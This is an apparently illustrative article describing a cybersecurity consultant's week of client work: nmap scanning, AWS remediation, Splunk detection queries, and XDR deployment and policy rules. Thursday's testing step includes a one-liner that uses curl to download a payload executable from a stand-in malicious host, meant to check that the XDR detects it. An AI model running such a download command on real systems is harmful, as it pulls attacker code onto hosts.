


# **A Week in the Life of a Cybersecurity Consultant at Deloitte**  
 

---

## **📅 Monday: Financial Services Client - Comprehensive Vulnerability Assessment**  
**📍 Client:** Major European Bank  
**⏰ Schedule & Technical Workflow**  

### **1. External Attack Surface Mapping (8:00-10:00)**  
**Objective:** Identify internet-facing vulnerabilities  

**Tools & Process:**  
1. **Asset Discovery** using **Nmap**:  
   ```bash
   nmap -sV --script vulners -oA bank_scan 193.168.1.0/24
   ```
   *Explanation:* This scans the client's IP range, detects service versions (-sV), and checks for known vulnerabilities using the vulners script.

2. **Vulnerability Scanning** with **Qualys**:  
   - Configured scan profile with banking-specific checks (PCI DSS requirements)  
   - Scheduled authenticated scans for deeper detection  

**Key Finding:**  
- Outdated Apache Tomcat (CVE-2023-28708) on payment portal server  
- *Impact:* Remote code execution possible  
- *Remediation:* Patch to v9.0.75  

---

### **2. AWS Environment Assessment (13:00-15:00)**  
**Focus Areas:** EC2, RDS, IAM  

**Step-by-Step:**  
1. **Prisma Cloud Configuration:**  
   ```python
   # AWS account onboarding
   def onboard_aws(account_id):
       prisma.configure_aws(account_id)
       enable_guardduty(account_id)
       enable_security_hub(account_id)
   ```

2. **Critical Findings:**  
   - S3 bucket with financial data publicly accessible  
   - IAM users with excessive permissions (AdministratorAccess)  

**Remediation Script:**  
```bash
aws s3api put-bucket-acl --bucket financial-data --acl private
aws iam attach-user-policy --user-name analyst1 --policy-arn arn:aws:iam::aws:policy/ReadOnlyAccess
```

---

## **📅 Tuesday: Healthcare Client - HIPAA Compliance Review**  
**📍 Client:** Hospital Network  

### **1. Splunk SIEM Compliance Monitoring (10:00-12:00)**  
**Requirements:**  
- Log retention ≥6 months  
- Alerting for unauthorized access  

**Implementation:**  
1. **Index Configuration:**  
   ```spl
   # Create HIPAA-compliant index
   [index:hipaa_logs]
   homePath = /vol1/hipaa/db
   coldPath = /vol1/hipaa/colddb
   frozenTimePeriodInSecs = 15552000 # 6 months
   ```

2. **Critical Alert:**  
   ```sql
   index=win_events EventCode=4663 ObjectType="File" Account!="SYSTEM" 
   | stats count by user, ObjectName 
   | where count > sensitive_file_threshold
   ```
   *Explanation:* Monitors unauthorized access to patient files  

---

### **2. XDR Policy Alignment (15:00-17:00)**  
**HIPAA Technical Safeguards:**  
1. **Endpoint Encryption Check:**  
   ```powershell
   Get-BitLockerVolume | Select MountPoint, ProtectionStatus
   ```
2. **XDR Rule Creation:**  
   ```yaml
   - rule_id: hipaa_data_movement
     description: Detect large PHI transfers
     conditions:
       - process: "explorer.exe"
       - file_operation: "copy"
       - file_size: "> 25MB"
       - file_extension: ".pdf,.docx"
     actions:
       - alert
       - quarantine
   ```

---

## **📅 Wednesday: Retail Client - AWS & Splunk Integration**  

### **1. Real-time AWS Monitoring (9:00-11:00)**  
**Architecture:**  


**Splunk Query for Suspicious Activity:**  
```sql
index=aws_cloudtrail eventName=ConsoleLogin 
| stats count by userIdentity.userName, sourceIPAddress 
| where count > 5
| lookup geoip src_ip OUTPUT country
| where country!="Germany"
```

---

## **📅 Thursday: Manufacturing Client - XDR Deployment**  

### **1. Endpoint Protection Strategy**  
**Deployment Phases:**  
1. **Pilot Group (50 devices):**  
   ```powershell
   # Silent install with logging
   Start-Process msiexec.exe -ArgumentList "/i CortexXDR-Win64.msi /qn /l*v install.log API_KEY=CLIENT-12345"
   ```
2. **Policy Rollout:**  
   - USB device control  
   - Ransomware prevention  
   - Memory protection  

**Testing Procedure:**  
```bash
# Simulate attack
python3 -c "import os; os.system('curl http://malicious.site/payload.exe -o payload.exe')"
```
*Verify XDR detection and blocking*

---

## **📅 Friday: Knowledge Consolidation**  

### **1. AWS Security Best Practices**  
**Implemented Controls:**  
1. **S3 Security:**  
   ```terraform
   resource "aws_s3_bucket" "secure" {
     bucket = "prod-data-2024"
     acl    = "private"
     
     server_side_encryption_configuration {
       rule {
         apply_server_side_encryption_by_default {
           sse_algorithm = "AES256"
         }
       }
     }
   }
   ```

### **2. Splunk Optimization Techniques**  
**Performance Tuning:**  
1. **Index Settings:**  
   ```ini
   [index:security_logs]
   maxHotBuckets = 10
   homePath.maxDataSizeMB = 10000
   ```
2. **Search Acceleration:**  
   ```sql
   | tstats summariesonly=t count from datamodel=Authentication 
   where Authentication.action=failure by _time, Authentication.user
   ```

---

## **🔧 Weekly Tool Utilization Insights**  

